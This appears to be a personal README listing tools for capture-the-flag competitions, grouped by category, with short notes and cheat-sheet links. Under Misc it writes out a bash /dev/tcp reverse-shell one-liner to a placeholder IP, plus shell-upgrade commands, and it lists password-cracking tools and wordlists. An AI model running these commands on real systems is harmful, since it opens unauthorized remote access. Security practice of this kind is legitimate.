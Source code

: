 # CTF Tool list

This repo is intended to serve as a list of tools that I've found useful during CTFs and any notes that I've got to go with them.

## Discovery

##### Nmap
Get versions
`nmap -sC -sV <target>`
Basic scan all ports
`nmap -p- <target>`


##### wfuzz

##### Gobuster

## Web
Looks for `sitemap.xml` or `robots.txt`

##### Burpsuite
##### SQLMap


## Cracking

##### John the ripper
https://countuponsecurity.files.wordpress.com/2016/09/jtr-cheat-sheet.pdf
##### Hydra
https://github.com/frizb/Hydra-Cheatsheet
##### PadBuster
Used to execute and oracle padding attack

##### Hashcat
https://github.com/frizb/Hashcat-Cheatsheet

## pwn

##### pwntools
https://github.com/Gallopsled/pwntools
##### ROP Gadet

## Forensics

##### strings
##### Foremost
##### Bin Walk

##### Volatility
The Volatility Framework isfor the
extraction of digital artifacts from volatile memory (RAM) samples.

https://github.com/volatilityfoundation/volatility
https://github.com/volatilityfoundation/community

## Steg

##### Exiftool
##### Stegsolve
##### Steg Crack
##### Steg Hide
##### zsteg
##### jsteg
##### pngcheck

##### Online tools
https://stylesuxx.github.io/steganography/

## Reversing

##### Radare
https://github.com/zxgio/r2-cheatsheet/blob/master/r2-cheatsheet.pdf

##### readelf

##### checksec
https://github.com/slimm609/checksec.sh
##### angr
##### z3

## Misc

##### Reverse Shell
`bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`
`python -c 'import pty; pty.spawn("/bin/sh")'`
`stty raw -echo`

##### Wordlists
(Rockyou)[https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt]
(SecLists)[https://github.com/danielmiessler/SecLists]

###### Cewl 
Wordlist generator

##### (Virus total)[https://www.virustotal.com/]
##### (Have I been Pwned)[https://haveibeenpwned.com/]


##### Linux enumeration
(Linpeas)[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS]
(Linenum)[https://github.com/rebootuser/LinEnum]
